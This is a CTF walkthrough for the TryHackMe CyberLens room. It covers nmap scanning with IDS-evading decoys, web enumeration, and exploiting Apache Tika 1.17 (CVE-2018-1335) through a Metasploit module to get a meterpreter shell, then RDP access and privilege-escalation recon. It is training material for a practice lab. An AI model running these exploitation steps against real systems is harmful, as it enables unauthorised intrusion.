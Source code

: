 
![intro](https://github.com/user-attachments/assets/341efde7-07e4-4e6d-b9c4-11cd22bd43ab)

# tryhackme-CTF-writeup-for-cyberLens

This is a walkthrough for the tryhackme CTF CyberLens. I will not provide any flags or passwords as this is intended to be used as a guide.

# Challenge Description

![description](https://github.com/user-attachments/assets/5e04f23a-a20b-4455-a22d-55edde6b6ff9)

As per the instructions, let's add the IP to our /etc/hosts file:
```bash
sudo echo '10.10.179.83 cyberlens.thm' >> /etc/hosts
```

Scanning/Reconnaissance
First off, let's store the target IP as a variable for easy access.

Command: export ip=xx.xx.xx.xx

Next, let's run an nmap scan on the target IP:

nmap -A -v $ip -D RND:10 -oN nmap.txt
Command break down:

-A: This flag enables aggressive scanning. It combines various scan types (like OS detection, version detection, script scanning, and traceroute) into a single scan.

-v: increases verbosity, providing more detailed output during the scan.

—$ip: provides the target IP we stored as the variable $ip.

-D RND:10 Nmap can send additional packets to confuse network intrusion detection systems (IDS) or hide the true source of the scan by randomly selecting up to 10 decoy IP addresses.

-oN nmap.txt: This option specifies normal output that should be saved to a file named “nmap.txt.

This scan reveals a few open ports that will prove very useful:

![nmap1](https://github.com/user-attachments/assets/1e85694b-46d2-472b-b25c-96d0bef09555)
![nmap2](https://github.com/user-attachments/assets/f4c98a3f-721a-4082-8536-284be0651ac9)

Let's head to web sever on port 80. There is an upload image function. I'm going to run further scans using ffuf, gobuster and nikto for further enumeration:
```bash
ffuf -u http://$ip/FUZZ -w /usr/share/wordlists/dirb/common.txt
```
gobuster dir -u $ip -w=/usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -x php,txt -o buster.txt
```
```bash
nikto -h $ip | tee nikto.txt
```
There are some directories that could prove useful:

![gobuster](https://github.com/user-attachments/assets/cf13212b-f7ce-4698-afdd-28f13257f9fa)

![nikto](https://github.com/user-attachments/assets/40632bb4-ccbc-4c1c-90a7-8752317b2d1d)

In the /js directory there is a js file that contains "fetch("http://localhost:61777/meta":

![extractor js](https://github.com/user-attachments/assets/5077b3c7-30a8-4b63-b402-d138f1e64467)

I ran an nmap scan on port 61777 but it didn't yeild much info.

![nmap61777](https://github.com/user-attachments/assets/c04c9ef6-86e1-4340-8c9a-0ed26484fa04)

I'll go ahead and visit the IP on this port.

We get a Tika 1.17 welcome:

![Tika 1 17](https://github.com/user-attachments/assets/a2d37890-2b70-4e02-b44a-12fa96ff247b)

I did a google search for Tika 1.17 exploit, and checked out this Header Command Injection(Metasploit) exploit. 

![headercommandinjection](https://github.com/user-attachments/assets/39a5d4c3-6ac4-4796-a127-d17c7ce2af2b)

I'm going to open up msfconsole and search for this exploit.

![msf1](https://github.com/user-attachments/assets/3f8fb7e6-7f58-43c6-9ae9-c336b6031038)

Payload information:

Description:
  This module exploits a command injection vulnerability in Apache 
  Tika 1.15 - 1.17 on Windows. A file with the image/jp2 content-type 
  is used to bypass magic bytes checking. When OCR is specified in the 
  request, parameters can be passed to change the parameters passed at 
  command line to allow for arbitrary JScript to execute. A JScript 
  stub is passed to execute arbitrary code. This module was verified 
  against version 1.15 - 1.17 on Windows 2012. While the CVE and 
  finding show more versions vulnerable, during testing it was 
  determined only > 1.14 was exploitable due to jp2 support being 
  added.

References:
  https://www.exploit-db.com/exploits/46540
  https://rhinosecuritylabs.com/application-security/exploiting-cve-2018-1335-apache-tika/
  https://lists.apache.org/thread.html/b3ed4432380af767effd4c6f27665cc7b2686acccbefeb9f55851dca@%3Cdev.tika.apache.org%3E
  https://nvd.nist.gov/vuln/detail/CVE-2018-1335

msf6 exploit(windows/http/apache_tika_jp2_jscript) > set rhosts 10.10.179.83
rhosts => 10.10.179.83
msf6 exploit(windows/http/apache_tika_jp2_jscript) > set rport 61777
rport => 61777
msf6 exploit(windows/http/apache_tika_jp2_jscript) > exploit

meterpreter > 

![meterpreter1](https://github.com/user-attachments/assets/acc264f0-ebee-4d8a-af21-ef4617749a9f)

Now to explore the file system and find the first flag.

c:\Users\CyberLens\Desktop>type user.txt
type user.txt

I then did more exploring of the cyberlens dir, and came across this password:

c:\Users\CyberLens\Documents\Management>type cyberlens-management.txt
type cyberlens-management.txt
Remember, manual enumeration is often key in an engagement ;)

CyberLens

Next, I followed the hint for the root flag:

RDP will make your life easier. If Remmina is not working, try this: rdesktop -u [user] -p [password] -N cyberlens.thm:3389
The tryhackme Kali attack box doesn't have rdestop so I used thsi instead:

xfreerdp /u:CyberLens /p:<password> /v:10.10.179.83:3389

# Exploitation

After looking around for a bit I decided to used the local_exploit_suggester on msfconsole:


![msf_recon](https://github.com/user-attachments/assets/7feb893b-a2d4-4d48-82b4-3fada152f410)
